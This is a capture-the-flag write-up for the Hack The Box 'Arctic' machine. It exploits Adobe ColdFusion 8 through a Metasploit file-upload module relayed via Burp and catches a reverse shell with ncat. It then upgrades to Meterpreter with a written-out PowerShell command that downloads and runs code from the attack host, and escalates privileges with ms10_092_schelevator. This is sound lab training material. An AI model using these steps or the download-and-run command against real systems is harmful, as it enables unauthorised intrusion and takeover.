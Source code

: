 # Arctic Box Write-Up
### Author: Luke DuCharme (@_nTr0py) --> Based on tutorial by ippsec
### Date Completed: 08 January 2019
### Difficulty: Easy
### IP: 10.10.10.11
### OS: Windows

### Enumeration with Nmap:
![nmap](/img/arctic/nmap.png)
* -sV : enumerate versions
* -sC : run safe scripts
* -Pn : skip host discovery

* Port 8500 is the default port for Adobe Cold Fusion.

![coldfusion page](/img/arctic/coldfusion.png)
* When navigating to port 8500 on a web browser, there is an interesting page in the /CFIDE/administrator directory. They are running Coldfusion v8. 

### Exploitation:
![exploit search](/img/arctic/exploit_search.png)
* Use searchsploit to locate possible exploits.
* There's a Metasploit module for an arbitrary file upload exploit.

![msfconsole1](/img/arctic/msfconsole1.png)
* Pull up the Metasploit Framework, and do a search for coldfusion.
* Use the module found in searchsploit.
* Set rhost to 10.10.10.11 and rport to 8500. 
* Exploit.

![msfconsole2](/img/arctic/msfconsole2.png)
* The exploit failed because of the server's long response time, so there is a little extra work to be done. 

![burpsuite1](/img/arctic/burp1.png)
* Open up Burpsuite and navigate to the proxy options tab.

![burpsuite2](/img/arctic/burp2.png)
* Add a listener for port 8500 and loop back only option to redirect to 10.10.10.11 and port 8500.

![test](/img/arctic/test.png)
* Browse to localhost:8500 to test the listener in a web browser. If intercept is on in Burp, make sure to forward the request.

* Go back to Metasploit and set rhost to 127.0.0.1 and exploit (Make sure intercept is on in Burp).

* Go to Burp and copy the POST request on the Proxy/intercept tab to the repeater tab on the request side.
* Drop the POST request from the Proxy/intercept tab.

![repeater](/img/arctic/repeater.png)
* Hit go on the Repeater tab and send it to 10.10.10.11 port 8500.
* There should be a 200 reponse in the response section along with the directory it uploaded the payload to. 

![listener](/img/arctic/listener.png)
* Start a ncat listener on port 4444 to catch the shell the callback the payload will generate. 
** l : listen
** n : no DNS
** v : verbose output
** p : port

![navigate](/img/arctic/navigate.png)
* Navigate to the payload page whose directory was shown in the Burp Repeater/response page.

![shell](/img/arctic/shell.png)
* There's a shell! 
* If something isn't working, make sure Burp isn't intercepting. 

### Upgrade Shell to Meterpreter with Unicorn (https://github.com/trustedsec/unicorn):
![unicorn](/img/arctic/unicorn.png)
* Follow the above syntax substituting Unicorn's directory and the IP of the attack box and a random high port. 

![restart](/img/arctic/restart.png) 
* Restart the Metasploit Framework using the options generated by Unicorn.
* cat the powershell_attack.txt file that Unicorn generated and copy it to the clipboard (make sure to avoid any extra spaces at the end or beginning).
* Use vi to create exploit.html and paste the powershell into it.
* Start a simple HTTP server on the attack machine using python in the directory where exploit.html is located (python -m SimpleHTTPServer).

![download](/img/arctic/download.png)
* In the shell on the target machine, run the following command in powershell to download and run the shellcode:
** powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/exploit.html')"
*** make sure to use the IP of the attack station and shellcode filename in the URL.
** There should be a GET request on your HTTP server in a few seconds.
* Switch to your Metasploit console, and it should indicate it's sending the encoded stager. If it sits for awhile, you can hit enter and use the sessions command to make sure your session was generated (to interact with it use 'sessions -i <session #>).
* Now we have a user level Meterpreter shell!

### Privesc
![suggester1](/img/arctic/suggester1.png)
* Use the local exploit suggester to check for any possible local privesc exploits. 

![suggester2](/img/arctic/suggester2.png)
* Since Meterpreter is currently running as a 32 bit process, you need to migrate to a 64 bit process, run the suggester again, and then use the exploit which works for 32 and 64 bit. 
** Interact with the Meterpreter session, list the processes with 'ps', migrate to a stable x64 process with 'migrate <PID>'.
* Follow the previous steps to run the suggester again.

![suggester_both](/img/arctic/suggester_both.png)
* ms10_092_schelevator is the only exploit which works on 32 and 64 bit, so use that one.
* Use ms10_092_schelevator and set the session to your Meterpreter session number.
* Throw the 'sploit!
** If it doesn't generate the session, check and make sure it starts the listener on your VPN IP and not your attack station's local IP. If it did, simply set lhost to your VPN IP. 

### Datamining:
![system](/img/arctic/system.png)
* Use the SYSTEM Meterpreter session to get the user and root flags.




